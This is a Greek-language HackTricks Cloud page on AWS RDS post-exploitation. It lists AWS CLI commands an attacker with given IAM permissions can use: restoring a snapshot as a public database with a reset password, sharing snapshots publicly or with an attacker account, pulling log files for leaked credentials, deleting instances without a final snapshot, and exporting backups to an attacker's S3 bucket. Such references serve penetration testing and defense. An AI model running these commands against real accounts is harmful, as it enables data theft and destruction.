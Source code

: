 # AWS - RDS Post Exploitation

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## RDS

Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Εάν ο επιτιθέμενος έχει αρκετές άδειες, μπορεί να καταστήσει μια **ΒΔ προσβάσιμη δημόσια** δημιουργώντας ένα στιγμιότυπο της ΒΔ και στη συνέχεια μια δημόσια προσβάσιμη ΒΔ από το στιγμιότυπο.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **δημιουργήσει ένα αντίγραφο ασφαλείας (snapshot) ενός DB** και να το καθιστήσει **δημόσια διαθέσιμο**. Έπειτα, μπορεί απλά να δημιουργήσει στον δικό του λογαριασμό ένα DB από αυτό το αντίγραφο ασφαλείας.

Αν ο επιτιθέμενος **δεν έχει την άδεια `rds:CreateDBSnapshot`**, μπορεί παρόλα αυτά να καθιστήσει **άλλα** δημιουργημένα αντίγραφα ασφαλείας **δημόσια διαθέσιμα**.

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```

### `rds:DownloadDBLogFilePortion`

Ένας επιτιθέμενος με την άδεια `rds:DownloadDBLogFilePortion` μπορεί να **κατεβάσει μέρη από τα αρχεία καταγραφής ενός RDS instance**. Εάν ευαίσθητα δεδομένα ή διαπιστευτήρια πρόσβασης καταγραφούν κατά λάθος, ο επιτιθέμενος μπορεί πιθανώς να χρησιμοποιήσει αυτές τις πληροφορίες για να αναβαθμίσει τα προνόμιά του ή να πραγματοποιήσει μη εξουσιοδοτημένες ενέργειες.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητες πληροφορίες ή μη εξουσιοδοτημένες ενέργειες χρησιμοποιώντας διαρροές διαπιστευτηρίων.

### `rds:DeleteDBInstance`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να προκαλέσει **DoS σε υπάρχοντες RDS instances**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Πιθανές επιπτώσεις**: Διαγραφή υπαρχόντων περιπτώσεων RDS και πιθανή απώλεια δεδομένων.

### `rds:StartExportTask`

{% hint style="info" %}
ΕΡΓΑΣΙΕΣ: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **εξάγει ένα αντίγραφο ασφαλείας της περίπτωσης RDS σε ένα κάδο S3**. Εάν ο επιτιθέμενος έχει έλεγχο επί του κάδου S3 προορισμού, μπορεί πιθανώς να έχει πρόσβαση σε ευαίσθητα δεδομένα μέσα στο εξαγόμενο αντίγραφο ασφαλείας.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Πιθανές επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα στο εξαγόμενο αντίγραφο ασφαλείας.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
